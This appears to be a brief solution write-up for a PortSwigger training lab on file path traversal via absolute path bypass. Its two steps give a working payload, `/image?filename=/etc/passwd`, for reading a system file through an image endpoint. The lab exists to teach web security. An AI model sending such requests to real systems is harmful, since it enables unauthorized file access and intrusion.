# File path traversal, traversal sequences blocked with absolute path bypass
- Name: File path traversal, traversal sequences blocked with absolute path bypass
- URL: https://portswigger.net/web-security/file-path-traversal/lab-absolute-path-bypass
- Level: Easy Time: 1 min
---------------------------------------------------------------------------------


## Solution
1. Find an image.
2. Edit the Source Path for it to add `/etc/passwd` like the next: `/image?filename=/etc/passwd`